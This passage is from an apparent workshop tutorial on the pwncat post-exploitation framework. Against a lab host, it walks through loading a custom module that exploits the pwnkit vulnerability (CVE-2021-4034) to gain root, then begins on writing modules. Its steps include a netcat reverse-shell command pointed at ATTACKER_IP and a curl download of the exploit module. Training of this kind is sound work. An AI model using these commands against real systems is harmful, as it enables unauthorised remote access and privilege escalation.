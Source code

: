 Now you know how to use pwncat to connect to targets via bind shells, reverse shells and SSH. Wh00t!

But what else can we do with this thing? How about writing our own exploit modules? Ya... that sounds like fun.

## Using custom modules

One of the most powerful features of pwncat is the fact it offers a framework that allows for custom modules. So you can write your own exploits and automation code to do the bidding you like. I am going to first introduce you to a module for pwncat I wrote that exploits CVE-2021-4034. You can [download it here](https://github.com/DanaEpp/pwncat_pwnkit).

But first, let's set up the scenario.

Remember when we uploaded linpeas to the target and then downloaded the recon.txt file? When you did a `less -r recon.txt` and scrolled through it, you would have seen under the CVE checks that linpeas detected that this target was vulnerable to CVE-2021-4034 and even highlighted it in **GOLD** to call it out. This is commonly called the pwnkit vulnerability. Now, you can go and follow instructions online to manually exploit this... or just run my pwnkit module in pwncat. Let's give it a try:

1. Download my pwnkit.py custom module: `curl -Ls https://raw.githubusercontent.com/DanaEpp/pwncat_pwnkit/main/pwnkit.py -O`
2. Move `pwnkit.py` to `~/.local/share/pwncat/modules/`. You may need to create this directory if it doesn't exist
3. Update `~/.local/share/pwncat/pwncatrc` with the following line: `set cross "/usr/bin/gcc"`
4. Start a new pwncat listener: `pwncat-cs -lp 4444`
5. From your SSH session on vm.thm, fire a new reverse shell: `nc ATTACKER_IP 4444 -e /bin/bash`
6. Confirm the pwnkit module automatically loaded using `info pwnkit`. If loaded, it should provide a description of what the module does.
7. Now auto-exploit to privesc to root. Simply type: `run pwnkit`. If successful, your UID should now be zero.
8. Confirm by going into remote-mode and doing `whoami`. You should now be root. Pwnage!

So follow along with me as I walk you through the code in VS Code. (That means stop reading and listen to me in the workshop :-) )

## Writing your first custom module.
We will use `sample.py` included in this repo. You can copy this to `~/.local/share/pwncat/modules/` to have pwncat automatically load it, or use the `load` command in pwncat to load it directly from wherever you have stored it.

ie: `(local) pwncat$ load /home/silverstr/pwncat-workshop/sample`

Once loaded, you can verify its working by doing `info sample` and finally `run sample`.

If all works out, you should see something like this:
